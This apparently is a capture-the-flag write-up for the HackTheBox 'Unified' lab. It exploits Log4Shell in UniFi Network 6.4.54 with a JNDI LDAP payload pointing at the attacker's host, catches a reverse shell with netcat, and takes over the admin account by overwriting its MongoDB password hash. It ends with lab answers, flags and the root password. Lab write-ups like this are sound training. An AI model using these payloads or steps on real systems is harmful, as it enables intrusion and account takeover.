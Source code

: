 # Unified

## ip

target: 10.129.96.149

attker: 10.10.15.248

## I. Enumeration

```bash
└─$ nmap -p- -Pn --min-rate=1000 -sV 10.129.96.149
Starting Nmap 7.93 ( https://nmap.org ) at 2023-02-24 11:54 EST
Nmap scan report for 10.129.96.149
Host is up (0.30s latency).
Not shown: 65529 closed tcp ports (conn-refused)
PORT     STATE SERVICE         VERSION
22/tcp   open  ssh             OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
6789/tcp open  ibm-db2-admin?
8080/tcp open  http-proxy
8443/tcp open  ssl/nagios-nsca Nagios NSCA
8843/tcp open  ssl/unknown
8880/tcp open  cddbp-alt?
3 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
...
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 258.42 seconds

```

port 8443: Unifi Network 6.4.54

## [CVE-2021-44228: Log4jUnifi](https://github.com/puzzlepeaches/Log4jUnifi)

Unifi Network 6.4.54 is vulnerable to Log4Shell

poc: <https://github.com/puzzlepeaches/Log4jUnifi>.

```bash
┌──(log4junifi)─(kali㉿kali)-[~/Documents/tools/Log4jUnifi]
└─$ python3 exploit.py -u https://10.129.96.149:8443 -i 10.10.15.248 -p 4242
[*] Starting malicous JNDI Server
{"username": "${jndi:ldap://10.10.15.248:1389/o=tomcat}", "password": "log4j", "remember": "${jndi:ldap://10.10.15.248:1389/o=tomcat}", "strict":true}
[*] Firing payload!
[*] Check for a callback!
```

listening port:

```bash
┌──(kali㉿kali)-[~]
└─$ nc -lvp 4242                                   
listening on [any] 4242 ...
10.129.96.149: inverse host lookup failed: No address associated with name
connect to [10.10.15.248] from (UNKNOWN) [10.129.96.149] 33226
whoami
unifi
```

## user flag

```bash
whoami
unifi
cat /home/michael/user.txt
6ced1a6a89e666c0620cdb10262ba127
```

## privilege escalation via mongodb

find mongodb:

```bash
ps -aux | grep mongo
unifi         67  0.4  4.1 1101692 84852 ?       Sl   04:18   0:18 bin/mongod --dbpath /usr/lib/unifi/data/db --port 27117 --unixSocketPrefix /usr/lib/unifi/run --logRotate reopen --logappend --logpath /usr/lib/unifi/logs/mongod.log --pidfilepath /usr/lib/unifi/run/mongod.pid --bind_ip 127.0.0.1
```

connect to mongodb:

```bash
mongo mongodb://127.0.0.1:27117
MongoDB shell version v3.6.3
connecting to: mongodb://127.0.0.1:27117
MongoDB server version: 3.6.3
```

default db for unify network is `ace`:

```bash
(remote) unifi@unified:/usr/lib/unifi$ mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"
MongoDB shell version v3.6.3
connecting to: mongodb://127.0.0.1:27117/ace
MongoDB server version: 3.6.3
{
        "_id" : ObjectId("61ce278f46e0fb0012d47ee4"),
        "name" : "administrator",
        "email" : "administrator@unified.htb",
        "x_shadow" : "$6$Ry6Vdbse$8enMR5Znxoo.WfCMd/Xk65GwuQEPx1M.QP8/qHiQV0PvUc3uHuonK4WcTQFN1CRk3GwQaquyVwCVq8iQgPTt4.",

```

`$6$` in `x_shadow` of administrator is the identifier for the `SHA-512` hasing algorithm.

we can create a new hashed password and update database:

```bash
└─$ mkpasswd -m sha-512 Admin@1234  
$6$QN3QPrrxL4cyhvKu$86MTWI1RqHwubyersFpLpsWllq.poOdWV8FNma1C5TuJGX7y6ZVsa43ZFfkrXZjIZ8COPE.4ysaVgzs3v/odh/
```

```bash
mongo --port 27117 ace --eval 'db.admin.update({"_id": 
ObjectId("61ce278f46e0fb0012d47ee4")},{$set:{"x_shadow":"$6$QN3QPrrxL4cyhvKu$86MTWI1RqHwubyersFpLpsWllq.poOdWV8FNma1C5TuJGX7y6ZVsa43ZFfkrXZjIZ8COPE.4ysaVgzs3v/odh/"}})'
MongoDB shell version v3.6.3
connecting to: mongodb://127.0.0.1:27117/ace
MongoDB server version: 3.6.3
WriteResult({ "nMatched" : 1, "nUpserted" : 0, "nModified" : 1 })
```

login as administrator with changed password, in the settings, we can find root password:

![root-credentials.png](./img/unified-root-credentials.png)

## root flag

```bash
┌──(log4junifi)─(kali㉿kali)-[~/Documents/tools/Log4jUnifi]
└─$ ssh root@10.129.96.149               
The authenticity of host '10.129.96.149 (10.129.96.149)' can't be established.
ED25519 key fingerprint is SHA256:RoZ8jwEnGGByxNt04+A/cdluslAwhmiWqG3ebyZko+A.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:3: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.96.149' (ED25519) to the list of known hosts.
root@10.129.96.149's password: 
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-77-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


root@unified:~# cat /root/root.txt
e50bc93c75b634e4b272d2f771c33681
root@unified:~# 

```

## Task

Task 1: Which are the first four open ports?: `22,6789,8080,8443`

Task 2: What is the title of the software that is running running on port 8443?: `UniFi Network`

Task 3: What is the version of the software that is running?: `6.4.54`

Task 4: What is the CVE for the identified vulnerability?: `CVE-2021-44228`

Task 5: What protocol does JNDI leverage in the injection?: `LDAP`

Task 6: What tool do we use to intercept the traffic, indicating the attack was successful?: `tcpdump`

Task 7: What port do we need to inspect intercepted traffic for?: `389`

Task 8: What port is the MongoDB service running on?: `27117`

Task 9: What is the default database name for UniFi applications?: `ace`

Task 10: What is the function we use to enumerate users within the database in MongoDB?: `db.admin.find()`

Task 11: What is the function we use to update users within the database in MongoDB?: `db.admin.update()`

Task 12: What is the password for the root user?: `NotACrackablePassword4U2022`

Submit user flag: done

Submit root flag: done

## References

<https://github.com/puzzlepeaches/Log4jUnifi>

<https://tblocks.com/how-to-prevent-a-log4j-jndi-attack/>

<https://www.tenable.com/blog/cve-2021-44228-proof-of-concept-for-critical-apache-log4j-remote-code-execution-vulnerability>
